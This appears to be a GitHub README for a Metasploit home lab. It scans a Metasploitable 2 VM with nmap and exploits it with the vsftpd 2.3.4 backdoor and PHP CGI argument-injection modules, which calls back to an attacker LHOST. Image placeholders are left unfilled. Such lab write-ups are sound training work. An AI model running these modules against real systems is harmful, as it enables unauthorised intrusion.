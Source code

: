 <h1>Metasploit Cybersecurity Home Lab</h1>

<h2>Description</h2>
<p>In this lab, I set up and configured Metasploit to exploit vulnerabilities in a virtual environment using VirtualBox and Kali Linux. This setup simulates various attack vectors</p>

<h2>Environments Used</h2>
<ul>
    <li><b>Host Operating System</b>: Windows 11</li>
    <li><b>Virtual Machines</b>:
        <ul>
            <li>Metasploitable 2</li>
            <li>Kali Linux</li>
        </ul>
    </li>
</ul>

<h2>Lab Walk-through</h2>

<h3>Setting Up the Environment</h3>
<ol>
    <li><b>Downloading Metasploitable 2</b>: Obtain the Metasploitable 2 virtual machine.</li>
    <li><b>Setting Up Virtual Machines</b>: Import the Metasploitable 2 virtual machine into VirtualBox.</li>
</ol>

<h3>Configuring VirtualBox VM</h3>
<p>Once imported, configure the network settings of both Kali Linux and Metasploitable 2 to be on the same internal network, ensuring they can communicate with each other.</p>

<h3>Nmap Scanning</h3>
<p>I used Nmap to scan the target machine (Metasploitable 2) for open ports and services. This helps in identifying potential vulnerabilities that can be exploited.</p>

<pre><code>sudo nmap -sV -O 10.0.2.4</code></pre>

<p align="center">
    <img src="data:image/png;base64,iV">


<h3>Launching Metasploit on Kali Linux</h3>
<ol>
    <li><b>Starting Metasploit Console</b>:</li>
</ol>

<pre><code>msfconsole</code></pre>

<p align="center">
    <img src="data:image/png;base64,{{screenshot1_base64}}" alt="Metasploit Console"/>
</p>

<h3>Exploiting Vulnerabilities</h3>

<ol>
    <li><b>Using vsftpd 2.3.4 Backdoor</b>:</li>
</ol>

<pre><code>
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 10.0.2.4
exploit
</code></pre>

<p align="center">
    <img src="data:image/png;base64,{{screenshot2_base64}}" alt="vsftpd Exploit"/>
</p>

<ol start="2">
    <li><b>Directory Scanning and PHP CGI Argument Injection</b>:</li>
</ol>

<pre><code>
use auxiliary/scanner/http/dir_scanner
set RHOSTS 10.0.2.4
exploit

use exploit/multi/http/php_cgi_arg_injection
set RHOSTS 10.0.2.4
set LHOST 10.0.2.5
exploit
</code></pre>

<p align="center">
    <img src="data:image/png;base64,{{screenshot3_base64}}" alt="Directory Scanner and PHP CGI Injection"/>
</p>

<h2>Additional Steps</h2>
<ul>
    <li><b>Enumerating Services and Vulnerabilities</b>: Use Metasploit's auxiliary modules to scan and identify services running on the target.</li>
    <li><b>Post-exploitation</b>: Gather information and maintain access on the compromised system.</li>
</ul>

</body>
</html>
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
-->
